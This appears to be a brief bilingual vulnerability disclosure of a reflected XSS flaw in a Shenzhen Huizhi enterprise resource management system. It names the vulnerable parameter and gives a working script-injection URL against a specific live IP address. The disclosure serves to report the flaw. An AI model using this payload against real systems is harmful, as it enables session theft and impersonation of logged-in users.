

XSS vulnerability exists in the program enterprise resource management system developed by Shenzhen Huizhi Software Development Co., LTD

深圳汇智软件开发有限公司 开发的程序 汇智企业资源管理系统 存在XSS漏洞

/nssys/home/nslicensemng.aspx?ex=

https://47.103.75.214/nssys/home/nslicensemng.aspx?ex=%3Cscript%3Ealert(1)%3C/script%3E

Attackers can exploit XSS vulnerabilities to steal the sessions of logged-in users, impersonating them to carry out unauthorized actions such as changing passwords or making purchases

